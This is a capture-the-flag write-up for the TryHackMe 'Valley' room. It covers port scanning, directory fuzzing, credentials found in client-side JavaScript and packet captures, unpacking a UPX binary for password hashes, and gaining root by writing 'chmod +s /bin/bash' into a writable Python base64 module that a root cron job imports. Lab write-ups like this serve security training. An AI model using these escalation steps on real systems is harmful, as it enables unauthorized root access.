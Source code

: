 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Valley
# DESCRIPTION       . Can you find your way into the Valley?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/valleype
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.96.224 -oN valley
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|_  256 429e2ff63e5adb51996271c48c223ebb (ECDSA)

80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)

37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80

- There wasn't any relevant information on the website itself.
- By looking at the source code of different page, I found the following endpoints.

```
/gallery
/static
/pricing
```

- I have decided to fuzz them all for potential hidden directories

- By fuzzing pricing, I found the following

```
J,
Please stop leaving notes randomly on the website
-RP
```

- By fuzzing static, I found another directory that is not linked in `/gallery`

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /{redacted}
-check for SIEM alerts
```

- By navigating to the hidden directory, we find a login panel. 
- I wanted to try to bruteforce it using hydra, assuming `valleyDev` was the username.

- When I was inspecting the source page to get the form details for hydra, I noticed `dev.js` being linked to the page.

- This was a poorly written javascript login function that contained the credentials in plain text

```javascript
if (username === "siemDev" && password === "{REDACTED}") {
        window.location.href = "/{REDACTED}/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
```

- After using the credentials found in the script, I got the following note

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

- Alright. So we know that the same credentials are working on the FTP server.

#### PORT 37370 

```
dr-xr-xr-x    2 1001     1001         4096 Mar 06  2023 .
dr-xr-xr-x    2 1001     1001         4096 Mar 06  2023 ..
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
```

- I've downloaded all files and inspected them using `Wireshark`. 

- `siemFTP.pcapng` contains just an anonymous login to the FTP server that is currently not available anymore. These were the files the user had access to.

```
-rw-r--r-- 1 0 0 0 Mar 06 13:27 AnnualReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 BusinessReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 CISOReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 HrReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 ItReport.txt
-rw-r--r-- 1 0 0 0 Mar 06 13:27 SecurityReport.txt
```

- All seem irelevant for our purpose here.

- `siemHTTP1` is just regular traffic and most of the `siemHTTP2` too, but from the latter we're able to extract multiple `.html` files.

- If we open them, one of them holds the credentials for `valleyDev`.

```
uname=valleyDev&psw={REDACTED}&remember=on
```

- The first flag can be found in `/home/valleyDev/user.txt`.

#### PRIVILEGE ESCALATION valleyDev -> valley

- A custom executable, `valleyAuthenticator`, is found in `/home`. 

- I couldn't use strings on the target server since it wasn't installed so I've transferred the file locally using a python htpp server.

- After that, I've used `strings` on it and I found multiple occurings of something called `UPX`.

- After reading some documentation, I've discovered that UPX is used to pack executables to reduce disk size, so this had to be unpacked.

- I've downloaded the binary from their github releases page and used the following command to unpack `valleyAuthenticatior`.

```
./upx -d -o output.elf valleyAuthenticator
```

- Now, I've used `strings` again on the output and this time I found more readable text

```
e6722920ba{REDACTED}e4bf6b1b58ac
dd2921cc76{REDACTED}09056cfb
Welcome to Valley Inc. Authenticator
What is your username: 
What is your password: 
Authenticated
```

- What got my attention was the following lines, as they looked like hashes.

- These two are MD5 hashes that have the credentials of user `valley`. 

#### PRIVILEGE ESCALATION valley -> root

```bash
id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

- We weren't part of `valleyAdmin` with the previous user.

- I continued my usual checks and I found the following in `/etc/crontab`

```
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
```

```
-rwxr-xr-x 1 root root 621 Mar  6  2023 /photos/script/photosEncrypt.py
```

```python
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
	image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
	with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
	encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
	output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
	with open(output_path, "wb") as output_file:
    	  output_file.write(encoded_image_data)
```

- But we don't have permission to modify this or to recreate the script in the directory as neither of them are owned by us.

- After a while I couldn't find anything else useful in particular so I've decided to look for unusual files using `find`.

- One of my checks was to see which files are owned by the group `valleyAdmin`.

```bash
find / -group valleyAdmin 2>/dev/null
```

```
/usr/lib/python3.8/base64.py
```

```
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
```

- `base64.py` is writable by us and is included in the script found in the crontab.
- This means that whatever we write in `base64.py` gets executed when the script runs.

```
#! /usr/bin/python3.8

import os
os.system("chmod +s /bin/bash")
```

- Then I've used `/bin/bash -p` to spawn a shell as `root`. 

- The last flag is in `/root/root.txt`.

